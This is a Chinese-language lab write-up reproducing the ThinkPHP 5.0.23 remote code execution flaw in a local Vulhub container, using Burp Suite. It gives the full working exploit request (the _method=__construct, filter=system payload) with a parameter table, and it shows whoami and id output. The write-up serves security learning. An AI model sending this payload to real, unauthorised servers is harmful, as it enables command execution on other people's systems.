


# ThinkPHP 5.0.23 RCE 漏洞复现记录

## 1. 实验说明

本实验在本地 Docker + Vulhub 隔离环境中进行，用于学习 Web
漏洞复现与 HTTP 请求分析。

目标环境：

- ThinkPHP 5.0.23
- Apache 2.4.25
- PHP 7.2.12
- Burp Suite
- Docker / Vulhub
- 访问地址：`http://localhost:8080`

## 2. 靶场启动

使用 Vulhub 提供的 ThinkPHP 5.0.23 环境启动 Docker 容器。

启动后通过浏览器访问：

```text
http://localhost:8080
```

确认目标应用能够正常访问。

## 3. Burp Suite 配置

配置浏览器代理，将 HTTP 请求发送到 Burp Suite，
通过 Proxy / HTTP history 查看并修改请求。

实验中目标服务运行在本机 `8080` 端口，因此 Burp
代理监听端口使用了其他未被 Docker 占用的端口。

## 4. 构造漏洞请求

将请求修改为 POST，并设置：

```http
Content-Type: application/x-www-form-urlencoded
```

测试请求：

```http
POST /index.php?s=captcha HTTP/1.1
Host: localhost:8080
Content-Type: application/x-www-form-urlencoded
Connection: close

_method=__construct&filter=system&method=get&server[REQUEST_METHOD]=whoami
```

关键参数：

| 参数 | 作用 |
|---|---|
| `_method=__construct` | 参与 ThinkPHP 请求方法相关处理 |
| `filter=system` | 指定数据处理过程中使用的过滤器 |
| `method=get` | 指定请求方法相关参数 |
| `server[REQUEST_METHOD]=whoami` | 提供命令执行时使用的参数 |

## 5. whoami 验证

发送上述请求后，服务器响应中出现：

```text
www-data
```

说明命令已经成功执行，并且执行命令的进程属于
Web 服务账户。

截图：



## 6. id 验证

进一步修改请求中的命令：

```text
server[REQUEST_METHOD]=id
```

重新发送请求，观察服务器返回的 UID、GID 等信息。

通过该结果可以进一步确认命令执行发生在 Web 服务进程权限下。

截图：



## 7. 复现结果

本次实验成功在本地 Vulhub 靶场中复现命令执行。

验证过程：

```text
构造 HTTP 请求
      ↓
ThinkPHP 请求处理
      ↓
触发危险函数调用
      ↓
执行 whoami
      ↓
返回 www-data
```

进一步使用 `id` 对执行环境的用户及用户组进行了验证。

需要注意，本实验验证的是 Web 服务账户权限下的命令执行，
并不代表已经获得宿主机或 root 权限。

## 8. 学习总结

通过本次实验掌握了：

1. 使用 Docker / Vulhub 搭建漏洞复现环境；
2. 使用 Burp Suite 抓取、修改和重放 HTTP 请求；
3. 分析 POST 请求及参数；
4. 根据响应结果判断漏洞是否触发；
5. 使用 `whoami`、`id` 验证命令执行及当前权限；
6. 对 Web 服务账户权限有了基本认识。

## 9. 安全说明

本实验仅在本地隔离靶场中进行。

相关技术仅用于网络安全学习、漏洞研究和经过授权的安全测试，
不得用于未经授权的系统。
